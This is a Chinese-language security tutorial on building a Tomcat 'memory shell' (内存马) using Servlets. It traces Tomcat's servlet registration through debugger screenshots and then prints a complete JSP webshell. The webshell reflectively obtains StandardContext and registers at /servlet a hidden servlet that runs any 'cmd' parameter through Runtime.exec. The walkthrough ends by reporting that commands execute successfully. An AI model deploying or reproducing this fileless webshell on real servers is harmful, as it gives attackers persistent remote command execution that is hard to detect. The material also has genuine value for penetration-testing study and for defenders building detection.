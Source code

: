 # Tomcat内存马之Servlet

## 前言

关于 Servlet 的知识，同样在前面[Servlet](../../01-JavaWeb基础/0-Servlet/Servlet.md)章节已经学习过，这里不再赘述，直接进入分析环节。

## Servlet流程分析

先编写一个 Servlet 实现类
```java
package com.servlet.study;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;

/**
 * Created by dotast on 2022/11/1 11:21
 */
@WebServlet(urlPatterns = "/*")
public class ServletTest extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String cmd = req.getParameter("cmd");
        try{
            InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
            ByteArrayOutputStream bao = new ByteArrayOutputStream();
            byte[] bytes = new byte[1024];
            int a = -1;
            while((a = inputStream.read(bytes))!=-1){
                bao.write(bytes, 0, a);
            }
            resp.getWriter().write(new String(bao.toByteArray()));

        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

访问带上参数执行命令
![image-20221101114404454](images/image-20221101114404454.png)

在前面的学习中，我们知道 Servlet 是在`StandardContext#startInternal()`方法里的`loadOnStartup()`进行调用，在这里打上断点
![image-20221102112537194](images/image-20221102112537194.png)

跟进`findChildren()`方法
![image-20221102112635004](images/image-20221102112635004.png)

此时的`children`属性已经存储了我们的 Servlet 实现类`com.servlet.study.ServletTest`，接下来需要寻找在哪里开始添加的以及如何添加。

返回`StandardContext#startInternal()`方法从前面开始看，其中`fireLifecycleEvent()`方法的注释是有关于生命周期的，我们将断点打在该方法上进行调试
![image-20221103111449771](images/image-20221103111449771.png)

跟进该方法
![image-20221107001456763](images/image-20221107001456763.png)

继续跟进`listener.lifecycleEvent()`方法
![image-20221103111626107](images/image-20221103111626107.png)

继续跟进`configureStart()`方法
![image-20221103111647954](images/image-20221103111647954.png)

调用了`webConfig()`方法，继续跟进
![image-20221107001703460](images/image-20221107001703460.png)

通过`createWebXml()`方法开始创建 WebXml 对象，此时`servletMappings`为空，继续往下走
![image-20221107001816881](images/image-20221107001816881.png)

这里跟进`processClasses()`方法
![image-20221107002001998](images/image-20221107002001998.png)

这里调用`context.getResources().listResources()`方法获取`/WEB-INF/classes`路径下的内容
![image-20221107002115992](images/image-20221107002115992.png)

其中在`/WEB-INF/classes/com/`路径下获取到`ServletTest.class`文件并添加到了`resource`
![image-20221107002325742](images/image-20221107002325742.png)

此时，`ServletTest`也被添加到了`webXml`对象中的`servletMappings`中
![image-20221107002446679](images/image-20221107002446679.png)

接着回到`ContextConfig#webConfig()`方法中，跟进`configureContext()`方法
![image-20221107095955380](images/image-20221107095955380.png)

在`configureContext()`方法中调到和`servlet`相关的代码
![image-20221107100457312](images/image-20221107100457312.png)

可以看到，通过`StandardContext.createWrapper()`方法创建了一个`wrapper`即`StandardWrapper`对象，同时为`wrapper`设置`LoadOnStartup`属性值
![image-20221107100659954](images/image-20221107100659954.png)

继续往下，分别为`wrapper`设置了`name`和`servletClass`属性的值，继续往下走
![image-20221107105938750](images/image-20221107105938750.png)

跟进`addChild()`方法
![image-20221107110138127](images/image-20221107110138127.png)

通过`context.addChild()`方法将`wrapper`添加到`ContainerBase`的`children`属性中，代码继续往下走
![image-20221107110331923](images/image-20221107110331923.png)

这里跟进`addServletMappingDecoded()`方法
![image-20221107110750212](images/image-20221107110750212.png)

最后将`ServletTest`类的路径映射添加到`wrapper`对象中。

弄清楚添加`ServletTest`的流程后，我们回到一开始的`loadOnStartup()`方法并跟进代码
![image-20221107111232641](images/image-20221107111232641.png)

这里判断`wrapper`对象的`LoadOnStartup`属性值，默认为 -1，
![image-20221107111350280](images/image-20221107111350280.png)

只有`LoadOnStartup`属性值大于 0 的时候，被`list.add()`方法添加到`list`中，最后才会被`wrapper.load()`方法加载到内存中进行调用。

整个`Servlet`的流程分析到这里算是结束了，可以总结完成动态注册`Servlet`的流程如下：

1. 编写恶意的`Servlet`类；
2. 获取`StandardContext`对象；
3. 创建`StandardWrapper`对象；
4. 设置`StandardWrapper`属性值`LoadOnStartup`属性值大于 0；
5. 设置`StandardWrapper`属性值`ServletName`；
6. 设置`ServletName`属性值`ServletClass`；
7. 将`StandardWrapper`对象添加到`ContainerBase`类的`children`属性中；
8. 通过`StandardContext.addServletMappingDecoded()`方法添加`Servlet`类的路径映射

开始编写 Servlet 型内存马
```jsp
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="org.apache.catalina.core.StandardWrapper" %><%--
  Created by dotast on 2022/11/7 17:02
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%!
    class ServletTest extends HttpServlet {
        @Override
        protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
            String cmd = req.getParameter("cmd");
            try{
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                ByteArrayOutputStream bao = new ByteArrayOutputStream();
                byte[] bytes = new byte[1024];
                int a = -1;
                while((a = inputStream.read(bytes))!=-1){
                    bao.write(bytes, 0, a);
                }
                resp.getWriter().write(new String(bao.toByteArray()));

            }catch (Exception e){
                e.printStackTrace();
            }
        }
    }
%>

<%
    // 获取StandardContext
    Field field = request.getClass().getDeclaredField("request");
    field.setAccessible(true);
    Request req = (Request) field.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
    // 创建StandardWrapper对象，设置属性
    ServletTest servletTest = new ServletTest();
    StandardWrapper wrapper = new StandardWrapper();
    wrapper.setLoadOnStartup(1);
    wrapper.setName(servletTest.getClass().getSimpleName());
    wrapper.setServlet(servletTest);
    wrapper.setServletClass(servletTest.getClass().getName());
    // 将StandardWrapper对象添加到ContainerBase类的children属性中
    standardContext.addChild(wrapper);
    // 通过StandardContext.addServletMappingDecoded()方法添加Servlet类的路径映射
    standardContext.addServletMappingDecoded("/servlet",servletTest.getClass().getSimpleName());

%>
```

访问上传的内存马文件路径使其执行代码，注册内存马
![image-20221107172042764](images/image-20221107172042764.png)

接着访问设置的路由`/servlet`成功执行命令
![image-20221107172132115](images/image-20221107172132115.png)
